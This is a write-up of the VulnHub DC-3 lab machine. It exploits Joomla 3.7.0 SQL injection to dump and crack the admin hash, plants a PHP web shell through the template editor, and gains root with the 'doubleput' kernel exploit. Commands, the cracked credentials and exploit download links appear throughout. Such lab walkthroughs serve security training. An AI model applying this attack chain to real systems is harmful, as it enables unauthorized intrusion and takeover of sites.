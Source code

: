 <h1>DC-3 Write-up</h1>

<h3>PORT 80</h3>

**Joomla 3.7.0**

Exploit : https://github.com/XiphosResearch/exploits/tree/master/Joomblah

```python joom.py http://192.168.56.48/```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-3/images/joompass.png)

```
Found user ['629', 'admin', 'admin', 'freddy@norealaddress.net', '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu', '', '']
```
Cracking Joomla Password 

```
echo "$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu" > hash
john hash --wordlist=rockyou.txt
crackedhash:snoopy
user:admin
```

Now i can login with **"admin"** user and **"snoopy"** password in joomla admin panel (/administrator)

<h3>Joomla To shell</h3> 

* navigate to "Extensions" > "Templates" > "Templates"
* Click on any Theme
* Click on "New File"  Now upload or create new file 
* call the shell file 

URL : http://IP/templates/THENAMEOFTEMPLATEYOUSELECTEDPRIVIOUSLY/shell.php

MYURL : http://192.168.56.48//templates/protostar/shell.php

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-3/images/shell.png)

<h3>Privilege Escalation :</h3>

Exploit : https://www.exploit-db.com/exploits/39772

Download : https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip

extract the exploit.tar file and transfer into DC-3 box then :

```
./compile.sh
./doubleput
```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-3/images/privesc%20and%20flag.png)



